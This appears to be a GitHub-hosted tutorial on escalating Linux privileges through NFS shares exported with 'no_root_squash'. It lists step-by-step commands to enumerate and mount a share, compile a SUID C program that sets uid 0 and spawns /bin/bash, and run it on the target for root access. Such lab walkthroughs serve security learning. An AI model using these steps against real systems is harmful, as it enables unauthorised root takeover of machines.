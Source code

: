 NFS is a distributed file system protocol that allows users to access files over a network as if they were on their local storage. It enables seamless file sharing across different systems and platforms.

NFS (Network File Sharing) configuration is kept in the ```/etc/exports``` file. This file is created during the NFS server installation and can usually be read by users.
![Screenshot from 2024-09-29 03-12-16](https://github.com/user-attachments/assets/bf41db70-90b7-4e9e-a012-a1ec58ab9785)

The critical element for this privilege escalation vector is the `no_root_squash` option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the `no_root_squash` option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

![lol](https://github.com/user-attachments/assets/042797ac-ae65-4413-9b72-4c4f75b01027)


STEPS
--
1. We will start by enumerating mountable shares from our attacking machine.
```
showmount -e <target ip>
```

2. We will mount one of the `no_root_squash` shares to our attacking machine and start building our executable.
```
$ mkdir ourOne
$ mount -o rw,vers=2 <target ipt>:/<share folder with no_root_squash option> ~/ourOne
$ cd ourOne
```
3. create an `script.c` in our machine:
```
int main(){ setgid(0);​setuid(0);​system("/bin/bash");​return 0;​}
```
4. We should make it excutable:
```
gcc script.c -o script -w
```
5. Set an SUID to it:
```
sudo chmod +s script
```
You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them). 
6. In the target machine, we should go to the shared directory and run `script` file:
```
./script
```
Finally, we got the root access.





